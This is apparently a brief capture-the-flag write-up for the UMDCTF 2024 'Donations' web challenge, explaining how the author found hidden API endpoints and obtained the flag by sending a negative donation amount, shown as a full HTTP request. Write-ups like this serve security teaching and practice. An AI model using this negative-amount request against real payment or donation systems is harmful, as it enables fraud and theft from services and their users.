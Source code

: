 ```yaml
---
title: "umdctf2024 - Donations"
date: 2024-04-28T18:57:47-03:00
draft: false
description: ""
tags: ["web", "ctf"]
---
```



After downloading and prettifying the javascript code we see that there's a `/api/flag` and a `/api/donate` endpoints.

The flag route returns:

```json
{"detail":"only the wealthy may view the treasure..."}
```

After trying some things that didn't work, I went to the donate functionality.
Using the parameters that I found in the javascript I is playing with this funcionality and noticed that you can only donate to a specific user

```json
{"detail":"you may only donate to Jeff Bezos"}
```

And somehow that Jeff Bezos's id is `lisanalgaib`

The solution was to donate a negative amount and earn that in return.

```http
POST /api/donate HTTP/2
Host: donations-api.challs.umdctf.io
Content-Length: 30
Cookie: session=...
Content-Type: application/x-www-form-urlencoded

to=lisanalgaib&currency=-99999
```

